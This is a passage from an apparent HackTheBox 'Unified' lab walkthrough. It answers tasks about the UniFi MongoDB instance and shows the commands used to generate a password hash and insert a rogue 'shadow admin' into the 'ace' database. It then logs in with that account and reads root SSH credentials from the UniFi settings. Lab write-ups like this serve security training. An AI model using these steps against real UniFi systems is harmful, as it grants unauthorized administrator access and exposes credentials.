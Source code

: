 The answer is port `27117`.
# Task 9

What is the default database name for UniFi applications?

```
 ace
```
# Task 10

What is the function we use to enumerate users within the database in MongoDB?

```
 db.admin.find()
```
# Task 11

What is the function we use to update users within the database in MongoDB?

```
db.admin.update()
```
# Task 12

What is the password for the root user?

Cracking the hash might take time so we’re going to add our an admin user to the database.

First, we need to generate a sha-512 hash with the following command :

```
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 2/Unified]
└─$ mkpasswd -m sha-512 pass123
$6$SSujgU1OdKBcSCxa$EJMOx3qNYgvelfhmrCGbprSuZkhJhID3DJEra13MT/tamMVMFO69EKWPfSM3lwtBuqWA5NH4l2B7ubw4RzULt.
```

Then we add our shadow admin with this command :

```
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "unifi-admin", "time_created" : NumberLong(100019800), "x_shadow" : "$6$SSujgU1OdKBcSCxa$EJMOx3qNYgvelfhmrCGbprSuZkhJhID3DJEra13MT/tamMVMFO69EKWPfSM3lwtBuqWA5NH4l2B7ubw4RzULt." })'
```

Now we run this command to check if our admin has been added. `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`.

Yes, it’s there. Now let’s go back to Unifi login page and sign in using the credentials we just registered, in my case: `unifi-admin:pass123`.

From this point,we should go to settings -> Site and find the following ssh credentials. `root:NotACrackablePassword4U2022`.
# Submit Flags
